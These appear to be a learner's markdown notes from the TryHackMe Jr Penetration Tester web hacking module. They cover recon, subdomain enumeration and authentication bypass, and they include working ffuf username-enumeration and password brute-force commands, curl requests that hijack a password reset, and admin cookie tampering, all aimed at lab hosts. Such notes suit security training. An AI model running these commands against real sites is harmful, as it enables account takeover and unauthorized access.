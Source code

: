 # THM Jr Penetration Tester

# Web Hacking

## Offensive intro
Brute force website to find hidden pages and directories  
`gobuster -u http://fakebank.thm -w wordlist.txt dir`

## Defensive intro
Security Operations Center (SOC), inc. Threat Intelligence  
Digital Forensics and Incident Response (DFIR), inc. Malware Analysis

## Stages

**Information Gathering**  
This stage involves collecting as much publically accessible information about a target/organisation as possible, for example, OSINT and research.  
Note: This does not involve scanning any systems.  

**Enumeration/Scanning**  
This stage involves discovering applications and services running on the systems. For example, finding a web server that may be potentially vulnerable.  

**Exploitation**  
This stage involves leveraging vulnerabilities discovered on a system or application. This stage can involve the use of public exploits or exploiting application logic.  
  
**Privilege Escalation**  
Once you have successfully exploited a system or application (known as a foothold), this stage is the attempt to expand your access to a system. You can escalate horizontally and vertically, where horizontally is accessing another account of the same permission group (i.e. another user), whereas vertically is that of another permission group (i.e. an administrator).  

**Post-exploitation**	 
This stage involves a few sub-stages:  
1. What other hosts can be targeted (pivoting)  
2. What additional information can we gather from the host now that we are a privileged user  
3. Covering your tracks  
4. Reporting

## Web Application walkthrough
In HTML source we can find:  
- `comments` and `hidden links` in html source
- `directories` for open permissions  
- `framework version`  
- `manipulate` HTML via inspector  
- breakpoint `debugger` in js code  
- `network` information  

## Content Discovery

**Manual**  
- `robots.txt`
- `favicon` revealing the framework used (md5 sum the result and look in https://wiki.owasp.org/index.php/OWASP_favicon_database)  
- `sitemap.xml` (more URLs)  
- `curl -v` (check versions of software used)  
- `admin URL` for instance gotten from framework websites

**OSINT**  
- `site:tryhackme.com admin` Google hacking/dorking  
- `technologies` used with Wappalyzer (https://www.wappalyzer.com/)  
- The Wayback Machine `https://archive.org/web/`
- `GitHub`'s search feature to look for company names or website names
- `S3 buckets` can be discovered  

**Automated**  
- `wordlists` for passwords, directories and filenames  
- Automation tools like `ffuf, dirb and gobuster`

## Subdomain Enumeration

3 different subdomain enumeration methods: Brute Force, OSINT and Virtual Host   

**OSINT**  
-  `Certificate search` for subdomains: https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
-  `Search engine` for subdomains: site:*.domain.com -site:www.domain.com
-  Automate search engine listing `./sublist3r.py -d acmeitsupport.thm`  

**Brute Force**
- `dnsrecon` try many domains dnsrecon -t brt -d acmeitsupport.thm

**Virtual Host**
- brute force subdomain that could be in /etc/host `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.50.172 -fs {size}`  

## Authentication Bypass

**Username Enumeration**  
- `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/signup -mr "username already exists" | grep "\[Status: 200" | awk '{print $1}' > valid_usernames.txt` finds valid usernames that exists  

**Brute Force**  
- Then use common passwords: `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/login -fc 200`  

**Logic Flaw**  
Playing with the fact  PHP $_REQUEST variable is an array that contains data received from the query string _AND_ POST data. We do this 2 queries:  
- `curl 'http://10.10.164.175/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`  
Create an account and then:    
- `curl 'http://10.10.164.175/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`  

**Cookie Tampering**  
- Set the cookie `curl -H "Cookie: logged_in=true; admin=true" http://10.10.164.175/cookie-test`
- `Find md5 content` by looking up DB of hashes such as ` https://crackstation.net/`  
- `Decode/Encode base64 content` i.e: {"id":1,"admin": false} becomes {"id":1,"admin": true}

## IDOR



